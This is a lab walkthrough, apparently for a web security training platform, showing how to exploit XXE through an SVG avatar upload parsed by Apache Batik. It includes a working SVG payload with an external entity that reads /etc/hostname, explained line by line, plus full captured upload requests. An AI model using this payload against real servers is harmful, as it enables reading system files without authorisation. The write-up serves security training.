

# Exploiting XXE via image file upload

```
❓

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.
```

In this lab, we are tasked with exploiting a server vulnerable to XXE vie image upload, after navigating to one of the product pages we can see a comment section when the user can enter their comment, name, upload an avatar, email and website. 



Let’s test out the comment section to see what kind of data is returned in the request after posting a comment with an image.

```bash
POST /post/comment HTTP/2
Host: 0ac1009703a6ebb9815e9816006b0093.web-security-academy.net
Cookie: session=DytWyqAXAp6NBUT6gZ6yEdLfe2iqSfmZ
Content-Length: 1820
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://0ac1009703a6ebb9815e9816006b0093.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary69M45uJ4rGCAS3Iu
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac1009703a6ebb9815e9816006b0093.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundary69M45uJ4rGCAS3Iu
Content-Disposition: form-data; name="csrf"

DZrLU9DfAXW1nO0HEwqcS76BnoOEhP4Q
------WebKitFormBoundary69M45uJ4rGCAS3Iu
Content-Disposition: form-data; name="postId"

5
------WebKitFormBoundary69M45uJ4rGCAS3Iu
Content-Disposition: form-data; name="comment"

test
------WebKitFormBoundary69M45uJ4rGCAS3Iu
Content-Disposition: form-data; name="name"

test
------WebKitFormBoundary69M45uJ4rGCAS3Iu
Content-Disposition: form-data; name="avatar"; filename="avatars.png"
Content-Type: image/png

<--PNG DATA-->

------WebKitFormBoundary69M45uJ4rGCAS3Iu
Content-Disposition: form-data; name="email"

test@mail.com
------WebKitFormBoundary69M45uJ4rGCAS3Iu
Content-Disposition: form-data; name="website"

http://test.com
------WebKitFormBoundary69M45uJ4rGCAS3Iu--
```

Notice in the request that the server accepts the following:

```bash
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```

We can take advantage of the image upload feature to upload an SVG since [SVG’s ](https://www.w3schools.com/graphics/svg_intro.asp)can contain XML. To do so, let’s create a SVG file and insert the following payload: 

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Here's a breakdown of what this payload is doing:

---

### **1. XML Declaration**

```xml
<?xml version="1.0" standalone="yes"?>

```

This indicates that the document is an XML file with version 1.0 and does not depend on any external resources (`standalone="yes"`).

---

### **2. Document Type Declaration (DTD)**

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

```

- **`<!DOCTYPE test>`**: Declares a DTD named `test` for the XML document.
- **`<!ENTITY xxe SYSTEM "file:///etc/hostname">`**:
  - Declares an **external entity** named `xxe`.
  - The entity fetches the contents of the file located at `/etc/hostname` (a file on Linux systems that typically contains the hostname of the machine).

---

### **3. SVG Definition**

```xml
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">

```

This defines an SVG (Scalable Vector Graphics) file with the following attributes:

- **`width="128px"`**** and ****`height="128px"`**: Sets the canvas size to 128x128 pixels.
- **`xmlns="http://www.w3.org/2000/svg"`**: Declares the SVG namespace.
- **`xmlns:xlink="http://www.w3.org/1999/xlink"`**: Includes the XLink namespace for linking resources (not used here).
- **`version="1.1"`**: Specifies the SVG version.

---

### **4. ****`<text>`**** Element**

```xml
<text font-size="16" x="0" y="16">&xxe;</text>

```

This creates a text element inside the SVG with the following attributes:

- **`font-size="16"`**: Sets the font size to 16 pixels.
- **`x="0"`**** and ****`y="16"`**: Positions the text 0 pixels from the left and 16 pixels down from the top of the SVG canvas.
- **`&xxe;`**: References the `xxe` entity defined in the DTD. When processed, this will attempt to include the content of the `/etc/hostname` file.

---

Here is what our request looks like after uploading the SVG:

```xml
POST /post/comment HTTP/2
Host: 0ac1009703a6ebb9815e9816006b0093.web-security-academy.net
Cookie: session=DytWyqAXAp6NBUT6gZ6yEdLfe2iqSfmZ
Content-Length: 1115
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://0ac1009703a6ebb9815e9816006b0093.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfI7qExUJWgwdk7R7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac1009703a6ebb9815e9816006b0093.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryfI7qExUJWgwdk7R7
Content-Disposition: form-data; name="csrf"

DZrLU9DfAXW1nO0HEwqcS76BnoOEhP4Q
------WebKitFormBoundaryfI7qExUJWgwdk7R7
Content-Disposition: form-data; name="postId"

5
------WebKitFormBoundaryfI7qExUJWgwdk7R7
Content-Disposition: form-data; name="comment"

svg-test
------WebKitFormBoundaryfI7qExUJWgwdk7R7
Content-Disposition: form-data; name="name"

svg-test
------WebKitFormBoundaryfI7qExUJWgwdk7R7
Content-Disposition: form-data; name="avatar"; filename="pfp.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>

------WebKitFormBoundaryfI7qExUJWgwdk7R7
Content-Disposition: form-data; name="email"

svg@test.com
------WebKitFormBoundaryfI7qExUJWgwdk7R7
Content-Disposition: form-data; name="website"

https://svg-test.com
------WebKitFormBoundaryfI7qExUJWgwdk7R7--
```

Once you head back to the blog post and open your profile picture in a new tab, you will see a code which is the solution to the lab.
